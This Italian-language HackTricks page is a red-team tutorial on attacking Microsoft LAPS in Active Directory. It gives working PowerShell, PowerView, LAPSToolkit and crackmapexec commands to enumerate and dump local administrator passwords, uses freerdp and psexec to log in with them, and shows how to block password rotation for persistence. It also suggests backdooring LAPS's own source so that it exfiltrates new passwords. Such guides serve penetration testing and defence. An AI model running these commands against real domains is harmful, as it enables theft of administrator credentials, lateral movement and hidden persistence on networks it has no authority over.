 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Informazioni di base

La Soluzione per la Password dell'Amministratore Locale (LAPS) è uno strumento utilizzato per gestire un sistema in cui le **password degli amministratori**, che sono **uniche, casuali e frequentemente cambiate**, vengono applicate ai computer uniti al dominio. Queste password sono memorizzate in modo sicuro all'interno di Active Directory e sono accessibili solo agli utenti a cui è stata concessa l'autorizzazione tramite le Liste di Controllo degli Accessi (ACL). La sicurezza delle trasmissioni delle password dal client al server è garantita dall'uso di **Kerberos versione 5** e **Standard di Crittografia Avanzata (AES)**.

Nagli oggetti computer del dominio, l'implementazione di LAPS comporta l'aggiunta di due nuovi attributi: **`ms-mcs-AdmPwd`** e **`ms-mcs-AdmPwdExpirationTime`**. Questi attributi memorizzano rispettivamente la **password dell'amministratore in chiaro** e **il suo tempo di scadenza**.

### Controlla se attivato
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### Accesso alla Password LAPS

Puoi **scaricare la policy LAPS grezza** da `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` e poi utilizzare **`Parse-PolFile`** dal pacchetto [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) per convertire questo file in un formato leggibile dall'uomo.

Inoltre, i **cmdlet PowerShell nativi di LAPS** possono essere utilizzati se sono installati su una macchina a cui abbiamo accesso:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** può essere utilizzato anche per scoprire **chi può leggere la password e leggerla**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

Il [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) facilita l'enumerazione di LAPS con diverse funzioni.\
Una consiste nel parsing di **`ExtendedRights`** per **tutti i computer con LAPS abilitato.** Questo mostrerà **gruppi** specificamente **delegati a leggere le password LAPS**, che sono spesso utenti in gruppi protetti.\
Un **account** che ha **unito un computer** a un dominio riceve `All Extended Rights` su quell'host, e questo diritto conferisce all'**account** la capacità di **leggere le password**. L'enumerazione può mostrare un account utente che può leggere la password LAPS su un host. Questo può aiutarci a **mirare a utenti AD specifici** che possono leggere le password LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
Se non c'è accesso a PowerShell, puoi abusare di questo privilegio da remoto tramite LDAP utilizzando
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Questo estrarrà tutte le password che l'utente può leggere, permettendoti di ottenere una migliore posizione con un altro utente.

## ** Utilizzando la Password LAPS **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **Persistenza LAPS**

### **Data di Scadenza**

Una volta diventati admin, è possibile **ottenere le password** e **prevenire** che una macchina **aggiorni** la sua **password** **impostando la data di scadenza nel futuro**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
La password verrà comunque reimpostata se un **admin** utilizza il **`Reset-AdmPwdPassword`** cmdlet; o se **Non consentire un tempo di scadenza della password più lungo di quanto richiesto dalla policy** è abilitato nella GPO LAPS.
{% endhint %}

### Backdoor

Il codice sorgente originale per LAPS può essere trovato [qui](https://github.com/GreyCorbel/admpwd), quindi è possibile inserire una backdoor nel codice (all'interno del metodo `Get-AdmPwdPassword` in `Main/AdmPwd.PS/Main.cs`, ad esempio) che in qualche modo **esfiltra nuove password o le memorizza da qualche parte**.

Poi, basta compilare il nuovo `AdmPwd.PS.dll` e caricarlo sulla macchina in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (e cambiare l'ora di modifica).

## Riferimenti
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
